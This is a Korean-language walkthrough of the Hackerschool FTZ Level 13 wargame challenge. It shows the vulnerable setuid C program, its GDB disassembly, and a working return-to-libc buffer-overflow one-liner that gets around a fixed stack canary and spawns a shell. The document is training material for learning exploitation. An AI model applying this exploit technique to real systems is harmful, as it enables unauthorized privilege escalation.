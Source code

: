 ```yaml
---
sort: 13
---
```


# Level 13

```note
id : level13

password : have no clue
```

hint를 보면 attackme의 소스코드가 나온다.<br>
attackme에 setuid가 걸려있으니 얘를 조져보자.

```c
#include <stdlib.h> 

main(int argc, char *argv[])
{
   long i=0x1234567;
   char buf[1024];

   setreuid( 3094, 3094 );
   if(argc > 1)
   strcpy(buf,argv[1]);

   if(i != 0x1234567) {
   printf(" Warnning: Buffer Overflow !!! \n");
   kill(0,11);
   }
}
```

level11과 같은 상황이다. 그러나 지역변수 i값이 변조되었는지 확인하는 루틴이 중간에 껴있다.<br>
buffer 끝에 random값을 넣어둔 후 해당 random값이 변조가 되었는지 확인하는 과정을 통해 bof를 탐지할 수 있는데, 이를 stack canary라고 한다.<br>
여기서는 random값이 아니므로 충분히 우회가 가능하다.<br><br>
GDB를 이용하여 attackme의 main함수를 disassemble했다.

<pre>
(gdb) disas main
Dump of assembler code for function main:
0x080484a0 (main+0):	push   %ebp
0x080484a1 (main+1):	mov    %esp,%ebp
0x080484a3 (main+3):	sub    $0x418,%esp

<b>0x080484a9 (main+9):	movl   $0x1234567,0xfffffff4(%ebp) </b>

0x080484b0 (main+16):	sub    $0x8,%esp
0x080484b3 (main+19):	push   $0xc16
0x080484b8 (main+24):	push   $0xc16
0x080484bd (main+29):	call   0x8048370 (setreuid)
0x080484c2 (main+34):	add    $0x10,%esp
0x080484c5 (main+37):	cmpl   $0x1,0x8(%ebp)
0x080484c9 (main+41):	jle    0x80484e5 (main+69)
0x080484cb (main+43):	sub    $0x8,%esp
0x080484ce (main+46):	mov    0xc(%ebp),%eax
0x080484d1 (main+49):	add    $0x4,%eax
0x080484d4 (main+52):	pushl  (%eax)

<b>0x080484d6 (main+54):	lea    0xfffffbe8(%ebp),%eax
0x080484dc (main+60):	push   %eax
0x080484dd (main+61):	call   0x8048390 (strcpy) </b>

0x080484e2 (main+66):	add    $0x10,%esp

<b>0x080484e5 (main+69):	cmpl   $0x1234567,0xfffffff4(%ebp)
0x080484ec (main+76):	je     0x804850d (main+109) </b>

0x080484ee (main+78):	sub    $0xc,%esp
0x080484f1 (main+81):	push   $0x80485a0
0x080484f6 (main+86):	call   0x8048360 (printf)
0x080484fb (main+91):	add    $0x10,%esp
0x080484fe (main+94):	sub    $0x8,%esp
0x08048501 (main+97):	push   $0xb
0x08048503 (main+99):	push   $0x0
0x08048505 (main+101):	call   0x8048380 (kill)
0x0804850a (main+106):	add    $0x10,%esp
0x0804850d (main+109):	leave  
0x0804850e (main+110):	ret
</pre>

strcpy가 사용되는 부분을 살펴보면 buf의 시작주소를 알 수 있고, 0x1234567을 할당하고 비교하는 부분에서 i의 주소를 알 수 있다.<br>
buf의 시작주소는 $ebp-0x418이고, i의 주소는 $ebp-0xc이다. 따라서 간격계산을 하여 i값이 손상되지 않도록 해야한다.

<img src="/picture/hacker_school/ftz/level13.png" width="700"/>

```bash
[level13@ftz level13]$ ldd ./attackme 
	libc.so.6 => /lib/tls/libc.so.6 (0x42000000)
	/lib/ld-linux.so.2 => /lib/ld-linux.so.2 (0x40000000)
```

사용되는 라이브러리와 mapping위치가 level11과 같은 것을 확인할 수 있다. 따라서 아래와 같이 shell을 딸 수 있었다.

```bash
# padding 0x40c byte + i 값 + 12 byte padding + system함수 주소 + 4byte padding + "/bin/sh" 주소
[level13@ftz level13]$ ./attackme `python -c "print('A'*0x40c+'\x67\x45\x23\x01AAAAAAAAAAAA\xc0\xf2\x03\x42\x41\x41\x41\x41\xa4\x7e\x12\x42\n')"`
sh-2.05b$ my-pass
```

```tip
## 알게 된 점

buffer overflow, RTL

stack canary
```
